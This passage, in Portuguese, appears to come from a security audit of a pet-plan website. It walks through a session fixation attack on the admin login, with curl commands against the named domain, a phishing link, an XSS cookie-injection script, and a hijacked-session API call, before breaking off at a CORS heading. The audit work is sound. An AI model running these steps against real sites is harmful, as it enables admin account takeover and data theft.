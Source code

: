 **Vetor de Ataque:** Sequestrar sessão de admin  
**Arquivo:** `server/auth.ts` (sem regeneração de sessão)  
**Severidade:** ALTA 🟠

#### Como o Hacker Exploraria:

**Passo a Passo:**

1. **Obter Session ID:**
   ```bash
   # Atacante acessa o site e obtém cookie
   curl -i https://unipetplan.com.br/admin
   
   Set-Cookie: connect.sid=s%3A...abc123...; Path=/; HttpOnly
   ```

2. **Forçar Vítima a Usar Esse Session ID:**
   ```html
   <!-- Phishing email com link malicioso -->
   <a href="https://unipetplan.com.br/admin/login?session=abc123">
     Clique aqui para acessar seu painel
   </a>
   
   <!-- OU injetar cookie via XSS -->
   <script>
   document.cookie = "connect.sid=s%3A...abc123...";
   </script>
   ```

3. **Vítima Faz Login:**
   ```
   Admin digita credenciais corretas
   Sistema NÃO regenera session ID (VULNERÁVEL!)
   Session ID continua sendo "abc123"
   ```

4. **Atacante Usa a Sessão:**
   ```bash
   # Atacante usa o mesmo session ID
   curl https://unipetplan.com.br/admin/api/dashboard/all \
     -H "Cookie: connect.sid=s%3A...abc123..."
   
   # Retorna dados do admin logado!
   ```

**Impacto:**
- 🎭 Sequestro completo de sessão admin
- 🎭 Acesso a dados sensíveis
- 🎭 Modificação de configurações
- 🎭 Criação de backdoors

---

### 🌐 ATAQUE 7: CORS Misconfiguration - Data Exfiltration

**Vetor de Ataque:** Explorar CORS permissivo em desenvolvimento  
**Arquivo:** `server/config/security.ts` (linhas 40-45)  
**Severidade:** ALTA 🟠
